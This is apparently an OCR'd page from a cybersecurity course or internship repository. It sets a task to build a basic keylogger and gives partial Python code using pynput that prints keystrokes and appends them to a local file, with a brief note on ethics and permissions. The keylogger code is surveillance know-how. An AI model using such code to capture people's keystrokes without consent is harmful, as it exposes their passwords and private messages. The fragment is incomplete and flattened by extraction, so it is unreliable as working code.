 PRODIGY-CS-CYBERSECURITY-main

TASK 4:
Create a basic keylogger program that records and logs keystrokes. Focus on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers. from pynput import keyboard This line imports the keyboard module from the pynput library, which is used for monitoring and controlling input devices, such as keyboards and mice. def keyPressed(key): print(str(key)) with open("keylog.txt", 'a') as logkey: try: char = key.char logkey.write(char) except: print("Error getting char")
